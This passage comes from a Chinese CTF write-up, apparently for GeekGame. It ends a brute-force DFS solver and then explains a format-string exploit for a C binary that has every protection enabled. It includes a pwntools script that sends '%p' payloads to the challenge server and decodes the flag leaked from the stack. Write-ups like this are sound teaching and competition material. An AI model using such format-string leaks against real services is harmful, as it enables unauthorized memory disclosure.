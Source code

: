 ```cpp
            cout << ans << endl;
        }
        return;
    }
    for (int i = 0; i < 5; ++i) {
        if (cnt[i] > 0) {
            cnt[i]--;
            ans.push_back(ch[i]);
            dfs(dep + 1, (x * 13337 + y[i]) % 19260817);
            ans.pop_back();
            cnt[i]++;
        }
    }
}

int main() {
    dfs(0, 1337);
    return 0;
}
```

## 14. 初学 C 语言

### Flag 1

程序拖到 Ghidra 里看了一眼，看起来是个栈溢出题。

接着 `checksec ./pwn`：

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

嗯。。保护全开，可是没有什么用

输入 `"%p" * 31` 到程序中，可以发现爆出来一堆栈上的数据，找一下 `67616c66`（flag）发现确实有，打印交差。

```python
#!/usr/bin/env python
from pwn import *

conn = remote('prob09.geekgame.pku.edu.cn', 10009)

conn.recvuntil(b'Please input your token: ')

conn.sendline(b'{token_here}\n')

conn.recv()
conn.sendline(b'%p' * 31)
resp = conn.recv()

resp = [t for k in resp.split(b'0x') for t in k.split(b'(')]
resp = resp[26:30]
resp.reverse()
resp = b''.join(resp).decode('utf-8')
if len(resp) % 2 != 0:
  resp = '0' + resp
resp = [resp[i:i+2] for i in range(0, len(resp), 2)]
resp.reverse()
resp = [chr(int(c, base=16)) for c in resp]

```